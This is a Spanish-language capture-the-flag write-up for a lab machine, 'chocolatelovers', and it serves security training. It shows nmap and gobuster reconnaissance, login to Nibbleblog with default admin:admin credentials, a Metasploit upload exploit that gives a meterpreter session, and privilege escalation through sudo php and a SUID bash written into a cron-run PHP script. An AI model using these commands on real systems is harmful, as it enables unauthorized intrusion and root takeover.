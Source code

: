 # chocolatelovers

* Máquina **atacante** -> 172.17.0.1
* Máquina **objetivo** -> 172.17.0.2 | Linux :penguin:

### Escaneo de puertos

Realizamos un escaneo de puertos con *nmap* para ver puertos abiertos de la máquina **objetivo**:
```shell
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```
![escaneo](/Capturas/2024-11-27_19-15.png)

Encontramos únicamente el puerto **80** abierto, por lo que vamos al navegador y vemos que hay una plantilla de apache estándar. Al ver el código fuente de la página, encontramos comentado **/nibbleblog**:

![comentado](/Capturas/2024-11-27_19-24.png)

### Fuzzing web

Lo que hemos visto comentado se trata de un directorio situado en la máquina **objetivo**, porque si accedemos a *172.17.0.2/nibbleblog*, nos aparece este blog:

![blog](/Capturas/2024-11-27_19-26.png)

Por lo que ahora, realizaremos **fuzzing web** sobre esta dirección con *gobuster*:
```shell
gobuster dir -u http://172.17.0.2/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.py,.php,.sh
```
![gobuster](/Capturas/2024-11-27_19-28.png)

Observamos que hay multitud de directorios, por lo que debemos ir investigando uno por uno en busca de información. Al acceder a *172.17.0.2/nibbleblog/admin.php*, encontramos un **panel de login**. Y si nos vamos dentro de **/content/users**, vemos que hay un usuario llamado **admin**, por lo que intentamos acceder con las credenciales **admin:admin** y tenemos acceso al portal:

![portal](/Capturas/2024-11-27_19-33.png)

Siguiendo con la investigación, buscamos en internet sobre alguna vulnerabilidad conocida en la versión que tenemos corriendo de **nibbleblog**. Resulta que existe una vulnerabilidad conocida de esta versión que podemos explotar con *metasploit*, la cual usa el plugin **my image** para ser explotada y poder subir un archivo malicioso. Así que primero debemos instalar dicho plugin:

![plugin](/Capturas/2024-11-27_19-36.png)

### Metasploit

Con el plugin ya instalado, buscamos el exploit:

![busquedaexploit](/Capturas/2024-11-27_19-38.png)

Y lo configuramos y ejecutamos:
```shell
set PASSWORD admin
set RHOSTS 172.17.0.2
set TARGETURI /nibbleblog
set USERNAME admin
set LHOST 172.17.0.1
```
![ejecucion](/Capturas/2024-11-27_19-41.png)

Y con esto, conseguimos una sesión de *meterpreter*. Ahora simplemente nos mandamos una reverse shell por el puerto que queramos y ya estamos dentro:

![dentro](/Capturas/2024-11-27_19-43.png)

### Escalada de privilegios

Para escalar privilegios, vemos que podemos ejecutar php como el usuario **chocolate**, por lo que ejecutamos el siguiente comando para acceder como dicho usuario:
```shell
sudo -u chocholate php -r "system('/bin/sh');"
```
![chocolate](/Capturas/2024-11-27_19-46.png)

Si visualizamos los procesos `ps -e -f`, vemos que hay uno extraño:

![ps](/Capturas/2024-11-27_19-48.png)

Podemos aprovechar el script **script.php** para cambiarle los permisos a la bash y escalar privilegios. Por lo que ejecutamos:
```shell
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```
Y ahora nos lanzamos una bash con `bash -p`:

![root](/Capturas/2024-11-27_19-51.png)

Para ser usuario **root** :triangular_flag_on_post: